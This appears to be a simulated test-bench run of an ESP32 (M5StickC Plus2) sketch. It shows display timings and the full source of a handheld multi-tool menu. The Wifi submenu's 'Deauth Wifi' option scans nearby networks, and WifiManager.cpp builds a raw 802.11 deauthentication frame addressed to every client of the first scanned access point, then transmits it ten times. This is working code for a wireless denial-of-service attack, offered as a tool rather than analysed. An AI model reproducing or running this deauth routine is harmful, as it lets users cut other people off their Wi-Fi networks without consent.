
Simulated run of this sketch. Board: ESP32. Parts: 240×135 colour display. The inputs (shaded band) are chosen by the test bench. A WiFi scan finds three made-up networks; what the sketch prints to the serial monitor is not drawn.

Above: at 1.4 s.
1.5 s: button B pressed for 0.15 s
At 2.3 s:

3.1 s: button B pressed for 1 s
At 3.5 s:

5.6 s: button A pressed for 0.15 s
At 8.2 s:

Timing chart, 0 to 9.7 s (numbered marks = the images above; inputs shaded):


The sketch:

main.ino
```cpp
#include <M5StickCPlus2.h>
#include "MenuManager.h"
#include "WiFiManager.h"

MenuManager menuManager;
WiFiManager wifiManager;

void setup() {
    M5.begin();
    M5.Lcd.setRotation(3);
    M5.Lcd.fillScreen(ORANGE_COLOR);
    WiFi.mode(WIFI_STA);
    WiFi.disconnect();

    menuManager.init(&wifiManager);
}

void loop() {
    M5.update();
    menuManager.update();
}
```

MenuManager.cpp
```cpp
#include "MenuManager.h"

void MenuManager::init(WiFiManager* wifiManagerPtr) {
    wifiManager = wifiManagerPtr;
    drawMenu();
}

void MenuManager::update() {
    handleInput();
}

void MenuManager::drawMenu() {
    M5.Lcd.fillScreen(ORANGE_COLOR);
    M5.Lcd.setTextSize(3);

    int yOffset = 10;
    int lineHeight = 45;
    const char** currentMenuOptions;
    int currentMenuLength;

    if (inWifiSubMenu) {
        currentMenuOptions = wifiSubMenuOptions;
        currentMenuLength = wifiSubMenuLength;
    } else {
        currentMenuOptions = mainMenuOptions;
        currentMenuLength = mainMenuLength;
    }

    for (int i = 0; i < visibleOptions && (scrollIndex + i) < currentMenuLength; i++) {
        int optionIndex = scrollIndex + i;
        drawOption(currentMenuOptions[optionIndex], optionIndex, yOffset + i * lineHeight);
    }
}

void MenuManager::drawOption(const char* text, int optionIndex, int y) {
    int x = 20;
    bool isSelected = (selectedOption == optionIndex);

    if (isSelected) {
        M5.Lcd.drawRoundRect(2, y - 10, M5.Lcd.width() - 6, 40, 8, TFT_BLACK);
    }
    M5.Lcd.setTextColor(TFT_BLACK, ORANGE_COLOR);
    M5.Lcd.drawString(text, x, y);
}

void MenuManager::handleInput() {
    if (M5.BtnB.wasPressed()) {
        scrollDown();
        drawMenu();
    }

    if (M5.BtnPWR.wasPressed()) {
        scrollUp();
        drawMenu();
    }

    if (M5.BtnA.wasPressed() && !inWifiSubMenu && selectedOption == 2) {
        inWifiSubMenu = true;
        scrollIndex = 0;
        selectedOption = 0;
        wifiManager->scanNetworks();
        drawMenu();
    }

    if (M5.BtnA.wasPressed() && inWifiSubMenu) {
        wifiManager->sendDeauthPacket();
    }
}

void MenuManager::scrollDown() {
    const int currentMenuLength = inWifiSubMenu ? wifiSubMenuLength : mainMenuLength;
    selectedOption++;
    if (selectedOption >= currentMenuLength) {
        selectedOption = 0;
        scrollIndex = 0;
    } else if (selectedOption >= scrollIndex + visibleOptions) {
        scrollIndex++;
    }
}

void MenuManager::scrollUp() {
    const int currentMenuLength = inWifiSubMenu ? wifiSubMenuLength : mainMenuLength;
    selectedOption--;
    if (selectedOption < 0) {
        selectedOption = currentMenuLength - 1;
        scrollIndex = max(0, currentMenuLength - visibleOptions);
    } else if (selectedOption < scrollIndex) {
        scrollIndex--;
    }
}
```

MenuManager.h
```cpp
#ifndef MENUMANAGER_H
#define MENUMANAGER_H

#include <M5StickCPlus2.h>
#include "WiFiManager.h"

#define ORANGE_COLOR 0xFD20
#define visibleOptions 3

class MenuManager {
public:
    void init(WiFiManager* wifiManager);
    void update();

private:
    int selectedOption = 0;
    int scrollIndex = 0;
    bool inWifiSubMenu = false, inWifiScanMenu = false, deauthing = false, paused = false;
    WiFiManager* wifiManager;

    const char* mainMenuOptions[5] = {"Infrared", "SubGhz", "Wifi", "Bluetooth", "Settings"};
    const int mainMenuLength = sizeof(mainMenuOptions) / sizeof(mainMenuOptions[0]);
    const char* wifiSubMenuOptions[1] = {"Deauth Wifi"};
    const int wifiSubMenuLength = sizeof(wifiSubMenuOptions) / sizeof(wifiSubMenuOptions[0]);

    void drawMenu();
    void drawOption(const char* text, int optionIndex, int y);
    void handleInput();
    void scrollUp();
    void scrollDown();
};

#endif // MENUMANAGER_H
```

WifiManager.cpp
```cpp
#include "WiFiManager.h"
#include <M5StickCPlus2.h>

void WiFiManager::scanNetworks() {
    int numNetworks = WiFi.scanNetworks();
    M5.Lcd.fillScreen(TFT_WHITE);
    M5.Lcd.setTextColor(TFT_BLACK);

    for (int i = 0; i < numNetworks; i++) {
        String ssid = WiFi.SSID(i);
        M5.Lcd.drawString(ssid, 10, 20 + i * 15);
    }
}

void WiFiManager::sendDeauthPacket() {
    int selectedNetwork = 0; // Идентификатор выбранной сети

    // Получаем BSSID и канал сети
    String bssidStr = WiFi.BSSIDstr(selectedNetwork);
    int channel = WiFi.channel(selectedNetwork);

    esp_wifi_set_channel(channel, WIFI_SECOND_CHAN_NONE);
    Serial.printf("Sending deauth packet on channel %d to BSSID %s\n", channel, bssidStr.c_str());

    uint8_t targetBSSID[6];
    sscanf(bssidStr.c_str(), "%hhx:%hhx:%hhx:%hhx:%hhx:%hhx",
           &targetBSSID[0], &targetBSSID[1], &targetBSSID[2],
           &targetBSSID[3], &targetBSSID[4], &targetBSSID[5]);

    uint8_t deauthPacket[26] = {
        0xC0, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
        targetBSSID[0], targetBSSID[1], targetBSSID[2], targetBSSID[3], targetBSSID[4], targetBSSID[5],
        targetBSSID[0], targetBSSID[1], targetBSSID[2], targetBSSID[3], targetBSSID[4], targetBSSID[5],
        0x00, 0x00, 0x07, 0x00
    };

    for (int i = 0; i < 10; i++) {
        esp_wifi_80211_tx(WIFI_IF_STA, deauthPacket, sizeof(deauthPacket), false);
        delay(100);
    }
}
```

WifiManager.h
```cpp
#ifndef WIFIMANAGER_H
#define WIFIMANAGER_H

#include <WiFi.h>
#include "esp_wifi.h"

class WiFiManager {
public:
    void scanNetworks();
    void sendDeauthPacket();
};

#endif // WIFIMANAGER_H
```

Measured:
- after the input at 1.5 s, the display: changes after 0.05 s (image 1)
- after the input at 3.1 s, the display: changes after 0.05 s (image 2)
- after the input at 5.6 s, the display: changes after 2.1 s (image 3)
